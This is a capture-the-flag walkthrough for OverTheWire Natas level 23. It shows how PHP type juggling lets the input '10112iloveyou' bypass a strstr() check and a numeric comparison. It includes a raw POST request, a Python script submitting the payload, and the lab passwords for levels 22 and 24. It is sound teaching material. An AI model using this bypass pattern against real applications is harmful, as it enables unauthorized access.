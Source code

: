 # Natas CTF Solutions  

## Natas Level 23  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Bypass the `strstr()` and numeric comparison conditions to reveal the password.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas23.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas23`  
- **Password:** Use the password from Natas Level 22:  
```
dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs
```  

![Home_Page](https://github.com/user-attachments/assets/b1de928a-77dc-46de-9851-3bc149de04b4)

---

### **Step 3: Analyze the Source Code**  
Key parts of the code:  
```php
if(strstr($_REQUEST["passwd"],"iloveyou") && $_REQUEST["passwd"] > 10) {
    print "Access granted. The password for natas24 is: XXXXX";
}
else {
    print "Access denied.";
}
```

- `strstr()` requires the string `"iloveyou"` to be present in the password.  
- The condition `$_REQUEST["passwd"] > 10` checks if the password is greater than `10` as a numeric value.  
- A string like `"10112iloveyou"` satisfies both conditions because:
  - `"iloveyou"` is present in the string.
  - `10112` is treated as a numeric value and is greater than `10`.  

![Source_Code](https://github.com/user-attachments/assets/daf91797-a293-41ed-b4e1-ac3839c821ff)

---

### **Step 4: Submit Payload**  
Send a POST request with the following data:  

```http
POST /index.php HTTP/1.1
Host: natas23.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded

passwd=10112iloveyou
```

✅ Example in Python:  
```python
import requests
from requests.auth import HTTPBasicAuth

username = "natas23"
password = "dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs"

url = "http://natas23.natas.labs.overthewire.org"
payload = {'passwd': '10112iloveyou'}

response = requests.post(url, auth=(username, password), data=payload)
print(response.text)
```

---

### **Step 5: Output**  
If successful, the output will reveal the password for the next level:  
```  
The password for natas24 is: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd  
```  

![Password](https://github.com/user-attachments/assets/4ce6fc66-8c66-42ca-890b-3a23bb990e91)

---

### **✅ Password for Natas Level 24**  
```
MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd
```  

---

## 💡 **Lessons Learned**  
✔️ **Type Juggling:** PHP loosely compares values, leading to bypass opportunities.  
✔️ **String Matching:** `strstr()` can be exploited by injecting the required substring.  
✔️ **Injection Through Numeric Values:** Mixing numeric and string values can confuse PHP’s comparison behavior.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Source Code | ![Source_Code](https://github.com/user-attachments/assets/daf91797-a293-41ed-b4e1-ac3839c821ff) |  
| Step 4 – Found Password | ![Password](https://github.com/user-attachments/assets/4ce6fc66-8c66-42ca-890b-3a23bb990e91) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 24**:  
👉 [http://natas24.natas.labs.overthewire.org](http://natas24.natas.labs.overthewire.org)  

---
